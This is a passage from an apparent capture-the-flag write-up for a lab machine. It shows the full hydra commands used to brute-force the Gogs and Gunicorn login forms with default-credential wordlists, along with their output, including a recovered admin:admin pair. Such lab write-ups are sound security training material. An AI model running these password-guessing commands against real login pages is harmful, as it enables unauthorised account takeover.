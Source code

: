 #### Login

![gogs login](Images/OnlyForYou/gogs\_signin.png)

### Port 8001/Gunicorn

![gunicorn](Images/OnlyForYou/port8001\_homepage.png)

We see a login page for the gunicorn hosted page but no other information appears present.

### Hydra

I tried searching exploits/default creds for both of these pages but I could not find any. What we can do however is run `hydra` against them to try and crack any easy passwords. We need to get a few things for hydra to work: a username/user list, a password list, how password is passed, endpoint it is set to, and a filter for incorrect logins. I brush over those things as they are easy to find.

#### Gogs

We know that gogs has two user's named `administator` and `john`. The login path is a `post` request to `/user/login`, and the text we can filter on is `Username or password is not correct`

```console
toasty@parrot$ hydra -u -f -L ./gogs_users.txt -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt  localhost http-post-form "/user/login:username=^USER^&password=^PASS^:Username or password is not" -I -s 8001
..SNIP
[DATA] attacking http-post-form://localhost:8001/user/login:username=^USER^&password=^PASS^:Username or password is not
..SNIP
1 of 1 target completed, 0 valid password found
```

Unfortunately, we did not find a valid password. We are only using default passwords to try and speed it up. If both hydra attempts are unsuccesful we can revisit.

#### Gunicorn Site

We don't have any usernames to go off here but we can use the top-usernames-shortlist that comes with [seclist](https://github.com/danielmiessler/SecLists/). Again it is a `post` request using form encoding and this time it goes to the `/login` path. The filter is `Username or Password is wrong!`. `-s` specifies the port.

```console
toasty@parrot$ hydra -u -f -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt  localhost http-post-form "/login:username=^USER^&password=^PASS^:Username or Password is wrong!" -I -s 8001
...SNIP
[DATA] attacking http-post-form://localhost:8001/login:username=^USER^&password=^PASS^:Username or Password is wrong!
[8001][http-post-form] host: localhost   login: admin   password: admin
[STATUS] attack finished for localhost (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
